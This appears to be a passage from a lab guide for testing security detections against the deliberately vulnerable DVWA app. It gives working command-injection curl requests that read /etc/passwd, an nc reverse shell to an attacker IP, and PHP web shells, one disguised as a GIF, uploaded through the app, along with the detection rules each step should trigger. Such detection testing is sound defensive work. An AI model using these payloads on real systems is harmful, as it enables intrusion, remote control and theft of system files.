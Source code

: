 ```bash
# Basic command injection
curl "http://$LINUX_TARGET:8080/dvwa/vulnerabilities/exec/?ip=127.0.0.1;id" \
  -H "Cookie: PHPSESSID=your-session-id; security=low"

# Multiple command chaining
COMMANDS=(
  "127.0.0.1;whoami"
  "127.0.0.1 && cat /etc/passwd"
  "127.0.0.1 | ls -la"
  "127.0.0.1 \`id\`"
  "127.0.0.1 \$(whoami)"
)

for cmd in "${COMMANDS[@]}"; do
  curl "http://$LINUX_TARGET:8080/dvwa/vulnerabilities/exec/?ip=$cmd" \
    -H "Cookie: PHPSESSID=your-session-id; security=low"
  sleep 2
done

# Advanced: Reverse shell attempt
curl "http://$LINUX_TARGET:8080/dvwa/vulnerabilities/exec/?ip=127.0.0.1;nc -e /bin/bash $KALI_IP 4444" \
  -H "Cookie: PHPSESSID=your-session-id; security=low"
```

**Expected Detections**:
- Command injection patterns (rule 31171)
- Custom command injection rule (100004)
- Suspicious command execution

### 1.5 File Upload Attacks

**Objective**: Test malicious file upload detection
**MITRE Technique**: T1190 (Exploit Public-Facing Application)

```bash
# Create malicious PHP file
cat > /tmp/shell.php << 'EOF'
<?php
if(isset($_GET['cmd'])) {
    system($_GET['cmd']);
}
echo "Web Shell Active";
?>
EOF

# Create different malicious files
cat > /tmp/shell.txt << 'EOF'
<?php system($_GET['cmd']); ?>
EOF

cat > /tmp/shell.jpg << 'EOF'
GIF89a
<?php system($_GET['cmd']); ?>
EOF

# Upload attempts
curl -F "uploaded=@/tmp/shell.php" -F "Upload=Upload" \
  "http://$LINUX_TARGET:8080/dvwa/vulnerabilities/upload/" \
  -H "Cookie: PHPSESSID=your-session-id; security=low"

curl -F "uploaded=@/tmp/shell.txt" -F "Upload=Upload" \
  "http://$LINUX_TARGET:8080/dvwa/vulnerabilities/upload/" \
  -H "Cookie: PHPSESSID=your-session-id; security=low"
```